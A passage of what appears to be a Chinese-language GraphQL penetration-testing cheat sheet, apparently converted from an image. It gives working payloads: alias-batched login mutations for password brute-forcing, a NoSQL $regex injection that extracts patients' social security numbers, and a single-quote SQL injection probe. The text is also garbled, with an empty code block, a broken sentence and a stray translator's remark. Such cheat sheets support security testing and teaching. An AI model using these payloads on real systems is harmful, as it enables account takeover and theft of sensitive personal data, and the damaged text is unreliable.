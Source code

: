 ```json
```

#### 基于查询名称的批处理

```json
{
    "query": "query { qname: Query { field1 } qname1: Query { field1 } }"
}
```

使用别名多次发送相同的变异

```js
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```

## 注入

> 由于 GraphQL 只是客户端和数据库之间的一层，因此仍然可能发生 SQL 和 NoSQL 注入。

### NoSQL 注入

在 `search` 参数中使用 `$regex`、`$ne` 来自 。

```js
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```


### SQL 注入

根据您提供的文档内容，以下是对应的翻译：

通过在graphql参数中发送单引号`'`来触发SQL注入

```js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```
